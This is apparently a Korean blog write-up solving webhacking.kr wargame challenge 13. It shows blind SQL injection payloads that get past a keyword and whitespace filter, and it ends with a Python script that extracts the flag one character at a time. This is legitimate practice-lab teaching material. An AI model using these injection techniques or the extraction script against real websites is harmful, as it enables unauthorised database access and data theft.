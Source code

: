 ```yaml
---
title: "webhacking.kr 13번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[13번 바로가기](http://webhacking.kr/challenge/web/web-10/?no=)

13번 문제에 접속하면 아래와 같은 화면이 나온다. SQLi관련 문제라고 알려주고 있다.

![13번_1](/img/13번_1.JPG)

입력폼이 2개 있는데 하나는 GET 인자 no에 밑에 있는건 password에 대응된다. no에 SQLi을 해서 flag를 얻고
password에 넣고 인증하면 된다. hint에 친절하게 테이블명과 컬럼명이 나와있다.


no에 1이나 `True`를 입력하면 result에 1이 나오고, 0이나 `False`를 입력하면 0이 나온다. 이걸로 blind SQLi를 할 수 있다.

![13번_2](/img/13번_2.JPG)
![13번_3](/img/13번_3.JPG)

`if(True,1,0)`을 입력하면 정상적으로 result에 1이 나온다. 공백문자, `union`, `ascii()`, `like`, `=`는 필터링되고 소괄호 `select`, `from`, `substr`, `in`, `strcmp()` 은 필터링되지 않는다.
괄호를 사용해 공백문자 필터링을 우회할 수 있다. 예를 들어 `SELECT * FROM talbe`과 `SELECT(*)FROM(talbe)`은 같은 동작을 한다.


먼저 flag가 몇개 있는지 확인해야 한다. 보통 admin등 특정 id의 password를 찾을 때는 password가 몇개인지 확인할 필요가 없지만, 이런식으로 딸랑 flag만 찾는 문제는 개수를 확인해야 한다.
`if((select(count(flag))from(prob13password))in(2),1,0)` 이런식으로 입력하면 테이블에 flag가 몇개 있는지 확인할 수 있다. `count()`는 row의 개수를 리턴해주는 함수이다.
테이블에 flag는 총 2개가 존재한다. `limit`가 필터링되기 때문에 다른 방법을 사용해서 flag를 골라야 하는데, `max`, `min` 등을 사용할 수 있다.


`if((select(max(length(flag)))from(prob13password))in(20),1,2)`


`if((select(min(length(flag)))from(prob13password))in(4),1,2)`

이렇게 하면 각각 긴 flag의 길이(20)와 작은 flag의 길이(4)를 알 수 있다.


`substr()`, `strcmp()`, `in`을 사용해 아래와 같은 쿼리를 만들어 flag를 1글자씩 알아낼 수 있다.
`if(strcmp(substr((select(max(flag))from(prob13password)),1,1),0x66),0,1)`
`if(strcmp(substr((select(min(flag))from(prob13password)),1,1),0x63),0,1)`


여기서 주의할 것은 `max(length(flag))`는 길이가 긴 flag가 나오지만 `max(flag)`는 길이가 긴 flag가 아니라, 사전순으로 뒤에 있는 flag라는 것이다.
`max(flag)`, `min(flag)` 둘 다 해서 2개의 flag를 모두 구하고 둘 중 하나(길이가 긴 것)를 auth에 입력하면 문제가 풀린다.


![13번_4](/img/13번_4.JPG)

```python
import urllib.request
import re

header = {'Cookie':'PHPSESSID=세션쿠키값'}
code = [x for x in range(32, 127)]

for i in range(1, 21):
    for c in code:
        req = urllib.request.Request("http://webhacking.kr/challenge/web/web-10/?no=if(strcmp(substr((select(min(flag))from(prob13password))," + str(i) + ",1)," + hex(c) + "),0,1)" , headers=header)
        data = urllib.request.urlopen(req).read()
        data = data.decode('UTF-8')
        find = re.findall('result</td></tr><tr><td>1</td>', data)
        if find:
            print(str(i) + ' ' + chr(c))
            break
```
